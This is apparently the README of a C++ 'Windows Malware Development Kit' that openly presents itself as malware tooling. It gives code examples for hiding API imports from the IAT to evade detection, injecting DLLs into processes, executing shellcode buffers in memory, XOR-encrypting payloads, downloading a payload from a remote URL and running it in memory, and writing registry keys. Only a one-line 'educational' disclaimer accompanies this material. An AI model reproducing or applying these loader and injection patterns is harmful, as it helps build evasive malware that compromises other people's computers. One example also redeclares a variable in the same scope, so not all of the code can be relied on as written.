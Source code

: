 # Windows Malware Development Kit (MDK) - Usage Guide

## Overview
The **Windows Malware Development Kit (MDK)** provides a framework for interacting with Windows processes, memory, hashing, and the Windows registry. This guide covers the core functionality of the framework with practical examples.

### API Evasion
MDK directly resolves API calls instead of linking them at compile-time, preventing them from appearing in the Import Address Table (IAT). This allows for stealthier execution by dynamically locating and invoking functions at runtime.

---

## Installation
Ensure you have the required dependencies set up before using MDK.

```cpp
#include <mdk.h>
```

Link against the necessary libraries when compiling your project.

---

## Features & Usage

### 1. Process Management
MDK allows interacting with Windows processes and their threads.

#### Example:
```cpp
// Create a new process object
auto process = mdk::process("notepad.exe");

// Access process attributes
process.handle;
process.pid;
process.threads();

// Enumerate process threads
for (mdk::thread thread : process.threads())
{
    // Access thread attributes
    thread.handle;
    thread.tid;
}
```

---

### 2. DLL Injection and API Calls
MDK supports DLL injection and dynamic function resolution.

#### Example:
```cpp
// Create a new process
auto notepad = mdk::process("Notepad.exe");

// Load a DLL
auto dll = mdk::dll("kernel32.dll");

// Inject the DLL into the process
notepad.inject(&dll);

// Load user32.dll
auto dll = mdk::dll("user32.dll");

// Locate and execute MessageBoxW
(*(void(*)(int, LPCSTR, LPCSTR, int)) dll.find("MessageBoxW"))(0, "Injected Message", "MDK Example", 0);

// Call MessageBoxA from user32.dll (simplifies the above)
dll.call<void>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// Same as above but with explicit typing
dll.call<VOID, INT, LPCSTR, LPCSTR, INT>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// DLL attributes
dll.handle;
dll.name;
dll.size;
```

---

### 3. Memory Buffers
MDK provides various buffer management functionalities.

#### Example:
```cpp
// Create buffers with different initialization states
auto i = mdk::buffer();       // Single-byte buffer
auto ii = mdk::buffer(32);    // 32-byte uninitialized buffer

// Create a buffer with predefined data
unsigned char shellcode[12] = "\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64";
auto buf = mdk::buffer(&shellcode, 12); // 12-byte initialized buffer

// Access buffer attributes
buf.file;    // Memory-mapped file
buf.handle;
buf.size;

// Execute the buffer in memory
buf.execute();
```

---

### 4. Encryption and Hashing
MDK allows encrypting buffers using built-in algorithms.

#### Example:
```cpp
// Create an XOR encryption algorithm with a 32-byte key
auto algorithm = mdk::hash::xor_(32);

// Encrypt the buffer in memory
buf.encrypt(&algorithm);
```

---

### 5. Internet Payload Downloading
MDK enables downloading and executing payloads directly in memory.

#### Example:
```cpp
// Create an internet handler
auto internet = mdk::internet();

// Download payload into a buffer
auto buffer = internet.download("http://example.com/payload", 512);

// Execute the downloaded buffer
buffer.execute();

// Internet attributes
internet.handle;
```

---

### 6. Registry Manipulation
MDK enables reading and writing to the Windows registry.

#### Example:
```cpp
// Define a buffer containing data to write
unsigned char data[] = "MDK Registry Example";
auto buffer = mdk::buffer(data, sizeof(data));

// Open a registry key
auto registry = mdk::registry(HKEY_CURRENT_USER, "Software\Example");

// Write data to the registry
registry.set("ExampleKey", &buffer);

// Retrieve a registry value
mdk::buffer result = registry.get("Desktop", "Wallpaper");
```

---

### 7. Static Library Access
MDK statically defines commonly used libraries for minimal memory overhead.

#### Example:
```cpp
// Access predefined libraries
mdk::nt().kernel32;
mdk::nt().wininet;
mdk::nt().advapi32;

// Example: Call GetProcessVersion via kernel32
auto version = mdk::nt().kernel32.call<DWORD>("GetProcessVersion", 0);
```

---

## Disclaimer
This framework is provided for educational and research purposes **only**. Unauthorized usage for malicious intent is strictly prohibited.

---

## Contact
For more information, visit: [github.com/damariion](https://github.com/damariion)


